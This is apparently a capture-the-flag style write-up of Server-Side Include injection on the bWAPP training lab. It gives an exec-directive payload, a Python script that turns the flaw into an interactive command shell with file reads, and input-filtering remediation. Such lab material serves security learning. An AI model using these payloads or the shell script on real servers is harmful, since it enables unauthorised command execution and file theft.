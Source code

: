 # 1. Low
In the default: We found that we are interacting with [ssii.php](http://bee.bug/bWAPP/ssii.php). I tried to input 123 and 456 into 2 text box and lookup

![SSI_L2.png](image/SSI_L2.png)

After pressed `Look up` the server response and redirected to [ssii.shtml](http://bee.bug/bWAPP/ssii.shtml) and return `Hello <FirstName> <LastName>`.

![SSI_L3.png](image/SSI_L3.png)

With known SSI vulnerability. I used `<!--#exec cmd='<your command>'-->`
- Payload: `<!--<!--#exec cmd='ls -la'-->-->`
- Request from client to server: `firstname=123&lastname=%3C%21--%3C%21--%23exec+cmd%3D%27ls+-la%27--%3E--%3E&form=submit`
And here is the result, so I built a script that help us to easy exploit this vulnerability

![SSI_L0.png](image/SSI_L0.png)

=> Build script to make a semi-shell

![SSI_L1.png](image/SSI_L1.png)

---
# 2. Medium
The server have filtered, could not exploit.

---
# 3. Script Supported

```python
from urllib3.exceptions import InsecureRequestWarning  
import requests  
import urllib3  
import re  
  
urllib3.disable_warnings(InsecureRequestWarning)  
HOST_NAME = "http://bee.bug/"  
session = requests.session()  
session.verify = False  
session.headers['User-Agent'] = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0'  
session.headers['Accept'] = 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8'  
proxies = {"http": '127.0.0.1:8080',  
           "https": '127.0.0.1:8080'}  
security_level = {"0": "Low", "1": "Medium", "2": "High"}  
session.proxies.update({'http': '127.0.0.1:8080', 'https': '127.0.0.1:8080'})  
  
  
def get_php_session():  
    username = 'bee'  
    password = 'bug'  
    header = session.headers.update({"Content-Type": "application/x-www-form-urlencoded"})  
    print('[+] Preparing Header: Content-Type": "application/x-www-form-urlencoded')  
    credential_parameters = f"login={username}&password={password}&security_level=0&form=submit"  
    print(f'[+] Preparing Login parameters: {credential_parameters}')  
    print(f'[*] Requesting with POST {HOST_NAME + "bWAPP/login.php"}')  
    response = session.post(HOST_NAME + "bWAPP/login.php", headers=header, data=credential_parameters,  
                            allow_redirects=False)  
    if response.status_code == 302:  
        print(f'   [{response.status_code}] Login Successfully with Username: {username} - Password: {password}')  
        print(f'   [{response.status_code}] Got PHPSESSID: {session.cookies["PHPSESSID"]}')  
        print(f'   [{response.status_code}] Got security_level: {security_level.get(session.cookies["security_level"])}')  
        print()  
        return session.cookies["security_level"]  
    else:  
        print('[-] False to authenticate. Try with another known credentials')  
  
  
def inject_code():  
    uri = 'bWAPP/ssii.php'  
    url = HOST_NAME + uri  
    print(f'[+] Requesting to: {url}')  
    session.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})  
    user_input = input('   [*] Shell> ')  
    if 'exit' in user_input.lower() and len(user_input.replace(' ', '')) == 4:  
        print('   [-] Exiting ...')  
        return 1  
    if 'cat' in user_input:  
        payload = (f'firstname=1&lastname=1<!--+1337<!--#include+file="{user_input.replace("cat ","")}"-->1337+-->&form=submit')  
    else:  
        payload = (f'firstname=1&lastname=1<!--+1337<!--#exec+cmd="{user_input}"-->1337+-->&form=submit')  
    response = session.post(url, data=payload, allow_redirects=True)  
  
    result = re.search(r'<!-- 1337(.+?)1337 -->', response.text, re.S)  
    if result:  
        print(result.group(1))  
    elif 'an error occurred while processing this directive' in response:  
        print(f'[-] Command "{user_input}" not found\n')  
    else:  
        print(f'[-] Command "{user_input}" not found\n')  
  
  
if __name__ == '__main__':  
    sec_level = get_php_session()  
    while True:  
        try:  
            if sec_level == "0":  
                if_exit = inject_code()  
                if if_exit:  
                    break  
            else:  
                print('[-] Medium and High level could not bypass because of using htmlspecialchars() function')  
        except KeyboardInterrupt:  
            break
```


---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 ]+`
- Using function to filter input: 
	- `$value = htmlentities($_GET['src'], ENT_QUOTES);`
	- `$value = htmlspecialchars($_GET['src'], ENT_QUOTES);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)